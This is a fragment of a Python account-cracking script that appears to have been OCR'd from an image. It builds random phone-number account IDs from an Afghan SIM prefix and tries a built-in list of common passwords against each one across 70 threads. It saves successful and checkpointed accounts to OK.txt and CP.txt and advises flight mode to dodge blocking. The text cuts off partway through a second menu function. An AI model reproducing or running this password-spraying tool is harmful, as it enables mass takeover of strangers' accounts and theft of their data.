 def m1():
    user=[]
    os.system('clear')
    print(logo)
    print('[+] Example  : 9370,9379,9378,9377,9374,Etc')
    print('\x1b[1;91m[+] See Note : Use Your Sim Code ')
    lines()
    kode = input('[+] Your Code : ')
    lines()
    os.system('clear')
    print(logo)
    print('[+] Example  : 1000,2000,3000,5000,Etc')
    print('\x1b[1;91m[+] See Note : Use Your Idz  Lemit ')
    lines()
    limit = int(input('[+] Idz Lemit : '))
    print(46*'-')
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    with ThreadPool(max_workers=70) as yaari:
        os.system('clear')
        print(logo)
        tl = str(len(user))
        print(' Total Acounts : '+tl)
        print(' Selected Code :\x1b[1;92m '+kode)
        print('\x1b[1;91m If you no result use flight mode')
        lines()
        for guru in user:
            uid = kode+guru
            pwx=[guru+guru,'Afghan123','Afghanistan','afghan12345','kabul123','100200','200300','900900','500500','۱۲۳۴۵۶','123456','۱۲۳۴۵۶۷۸۹','10002000','kabul1234','afghanistan123','afghanistan','khan1234','khan12345','khan123','khankhan','600700','700800']
            yaari.submit(rcrack,uid,pwx,tl)
    print(46*'-')
    print('IDZ SAVED IN OK.txt : CP.txt')
    print(46*'-')
    print('The Process Has Been Complete')
    print('Press Enter to Back');riaz()
def m2():
    user=[]
    os.system('clear')
    print(logo)
    print('[+] Example  : 9370,9378,9377,9379,9374,Etc')
    print('\x1b[1;91m[+] See Note : Use Your Sim Code ')
    lines()
    kode = input('[+] Your Code : ')
    lines()
    os.system('clear')
    print(logo)
    print('[+] Example  : 1000,2000,3000,5000,Etc')
    print('\x1b[1;91m[+] See Note : Use Your Idz  Lemit ')
    lines()
    limit = int(input('[+] Idz Lemit : '))
    print(46*'-')
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    with ThreadPool(max_workers=70) as yaari:
        os.system('clear')
        print(logo)
        tl = str(len(user))
        print(' Total Acounts : '+tl)
        print(' Selected Code :\x1b[1;92m '+kode)
        print('\x1b[1;91m If you no result use flight mode')
